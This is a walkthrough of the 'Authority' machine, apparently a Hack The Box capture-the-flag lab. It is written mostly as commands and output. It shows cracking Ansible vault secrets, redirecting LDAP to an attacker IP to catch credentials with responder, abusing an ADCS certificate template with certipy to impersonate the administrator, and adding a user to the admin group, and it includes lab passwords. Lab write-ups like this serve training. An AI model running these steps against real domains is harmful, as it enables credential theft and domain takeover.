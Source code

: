 #Nmap

```
smbclient -L ip
smbclient \\\\10.10.11.222\\Development

2.cd \Automation\Ansible\PWM\defaults\
3.get main.yml
```

```
cat main.yml

#OUTPUT
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438

pwm_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764
```

          decrypt with ansible2john <filename>

          and then copy its ansible password then fill it in file then to decrypt it u need hash with john tools

          john --wordlist=/usr/share/wordlists/rockyou.txt hash.txtt

          then u got the password after that go back the passwd then cat <file_name> | ansible-vault decrypt

Vault Password:!@#$%^\* (password already decrypted)

then u will got the user then to get password use same way to get user

username:svc*pwm
Password:pWm*@dm!N\_!23

login on https://10.10.11.222:8443/pwm/private/login
then select "Configuration Manager"
then fill the password u decrypted

after you login Download configuration and then u just find it this code

```<value>ldaps://authority.authority.htb:636</value>```

then change it to  
``` <value>ldap://<Your-Ip-Tun0>:389</value>```

then saved it then back to the website click "Import Configuration"

next upload file already changed , so open terminal run command

responder -I tun0 -wA

and then u got the password , next way go to evil-winrm to capture the flag

evil-winrm -i 10.10.11.222 -u svc_ldap -p "<password>"
lDaP_1n_th3_cle4r!

# Privilege Escalation

impacket-addcomputer authority.htb/svc_ldap:<password> -dc-ip 10.10.11.222 -computer-name '<give_any_name>' -computer-pass '<give_any_pass>'

#Example
impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222 -computer-name 'hack' -computer-pass '123'

# Certipy Installation
```
git clone https://github.com/ly4k/Certipy.git
cd Certipy 
pip3 install certipy-ad
python3 setup.py install
```

```
certipy find -u 'test1$' -p '123' -dc-ip 10.10.11.222c  certipy req -username 'hack$' -password '123' -ca 'AUTHORITY-CA' -target 10.10.11.222 -template 'CorpVpn' -upn "administrator@authority.htb" -dns authority.authority.htb
```

if u got some error u need copy authority.authority.htb to /etc/hosts
and run command sudo ntpdate -u authority.authority.htb ntpdate for create time

```
#Output
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```

the private keys saved on your linux , so we just login ldap to add user

#Ldap Command
certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222 -ldap-shell
run command help to see command 
# help

```
add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 exit - Terminates this session.```



add_user_to_group svc_ldap 'Administrator'


now exit LDAP go back linux run evil-wirnm for capture the flag root

evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

after you logged in you just 
"cd C:\Users\Administrator\Desktop"
cat root.txt
de8**************
